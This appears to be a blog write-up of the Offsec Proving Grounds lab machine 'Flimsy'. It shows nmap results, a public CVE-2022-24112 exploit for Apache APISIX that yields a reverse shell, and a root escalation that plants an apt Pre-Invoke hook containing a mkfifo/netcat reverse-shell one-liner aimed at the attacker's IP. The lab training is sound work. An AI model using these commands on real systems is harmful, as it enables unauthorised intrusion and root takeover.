 ```yaml
---
title: "Proving grounds Play: Flimsy"
layout: post
date: 2023-10-06 02:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- PG-Practice
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds practice linux machine writeup"
---
```


## Nmap

```text
PORT      STATE SERVICE             VERSION
22/tcp    open  ssh                 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 62361a5cd3e37be170f8a3b31c4c2438 (RSA)
|   256 ee25fc236605c0c1ec47c6bb00c74f53 (ECDSA)
|_  256 835c51ac32e53a217cf6c2cd936858d8 (ED25519)
80/tcp    open  http                OpenResty web app server 1.21.4.1
|_http-title: Welcome to OpenResty!
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: openresty/1.21.4.1
3306/tcp  open  mysql               MySQL (unauthorized)
9443/tcp  open  ssl/tungsten-https?
43500/tcp open  http                OpenResty web app server
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
|_http-server-header: APISIX/2.8
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 43500/tcp open  http - OpenResty web app server

```sh
HTTP/1.1 404 Not Found
Date: Fri, 06 Oct 2023 02:42:05 GMT
Content-Type: text/plain; charset=utf-8
Connection: keep-alive
Server: APISIX/2.8
```

**http-server-header: APISIX/2.8** the http header disclosed the service name and version which is vulnerable to [Apache APISIX 2.12.1 - Remote Code Execution (RCE)](https://www.exploit-db.com/exploits/50829).

**Exploitation**

```sh
naveenj@hackerspace:|22:26|~/proving_grounds/Flimsy/exploit$ python exploit.py http://192.168.211.220:43500/ 192.168.45.250 4444

                                   .     , 
        _.._ * __*\./ ___  _ \./._ | _ *-+-
       (_][_)|_) |/'\     (/,/'\[_)|(_)| | 
          |                     |          

		(CVE-2022-24112)
{ Coded By: Ven3xy  | Github: https://github.com/M4xSec/ }
```

```sh
naveenj@hackerspace:|22:25|~/proving_grounds/Flimsy/exploit$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.250] from (UNKNOWN) [192.168.211.220] 54406
python -c 'import pty; pty.spawn("/bin/bash")'
franklin@flimsy:/root$ 
```

**Initial Foothold Obtained**

## Privilege Escalation

Download [linpeas.sh]() to the vulnerable machine and run it. The script shows the current user has writable permission to the folder `/etc/apt/apt.conf.d` which allows us to escalate privileges.

```sh
franklin@flimsy:/etc/apt/apt.conf.d$ echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.250 4444 >/tmp/f"};' > shell
< -i 2>&1|nc 192.168.45.250 4444 >/tmp/f"};' > shell
franklin@flimsy:/etc/apt/apt.conf.d$ 
```

Wait for few seconds when the cron runs the file as root we will get reverse shell as root.

```sh
naveenj@hackerspace:|22:31|~/proving_grounds/Flimsy$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.250] from (UNKNOWN) [192.168.211.220] 54730
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
# 
```

**Root Obtained**

## Reference

- [https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/](https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/)

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).